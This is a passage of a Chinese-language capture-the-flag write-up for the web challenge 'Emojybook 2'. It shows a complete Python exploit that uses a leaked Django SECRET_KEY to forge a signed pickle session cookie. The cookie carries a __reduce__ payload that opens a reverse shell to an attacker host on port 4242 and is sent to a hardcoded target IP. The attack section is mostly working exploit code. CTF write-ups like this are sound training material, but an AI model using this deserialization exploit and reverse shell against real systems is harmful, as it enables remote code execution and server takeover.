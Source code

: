 ```python
        x.start()
    for index, thread in enumerate(threads):
        thread.join()
```

## Web/Emojybook 2

> no unintended solution this time! the source has not been patched, the unintended solution was caused by my dockerfile
>
> The flag is at `/flag.txt`

跟上面那个前端一模一样，然而这次再用之前的 `{..{/flag.txt}..}`会返回500错误，这回就要用上之前完全没用到的pickle session cookie了。

先读一下/app/notebook/settings.py，得到secret_key，然后搞一个反弹shell的cookie出来

```python
# Modified from https://blog.scrt.ch/2018/08/24/remote-code-execution-on-a-facebook-server/
#!/usr/bin/python
import django.core.signing, django.contrib.sessions.serializers
from django.http import HttpResponse
from django.conf import settings
import pickle
import os
import requests

SECRET_KEY = 'wr`BQcZHs4~}EyU(m]`F_SL^BjnkH7"(S3xv,{sp)Xaqg?2pj2=hFCgN"CR"UPn4'

settings.configure(DEFAULT_HASHING_ALGORITHM="sha256")

# Initial cookie when visiting the page
cookie=".eJxNjEEKwjAQRUVwKYKn0E1Impmm3Yl7z1AmSWNbJYW2WQoeIMt4D4-ookL_8r3Hv68ez8V3t7SL64rC1FRhrIeqtSkuS0xxO4OazKX2b7O3Hflzz0zvp6HV7JOwnx3Zqbf19fhvN7ODhsYmxQOQyMjmSIpzLjMCYyRpDTlwI5wAaTNwFhWgwVISaVWgUKiVcM4V4FJgLxnJP1s:1mFhOG:5yO4Fkp6kQCGyt6e5jHf6Gn5V6gqPDWIw21OTFSw8DM"

newContent =  django.core.signing.loads(cookie,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
class PickleRce(object):
	def __reduce__(self):
		import os
		return (os.system,("python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"VPS IP\",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'",))

newContent['testcookie'] = PickleRce()

new_cookie = django.core.signing.dumps(newContent,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies',compress=True)

# We can then make a request with this cookie
requests.get("http://193.57.159.27:23934/", cookies={
	"sessionid": new_cookie
})
```
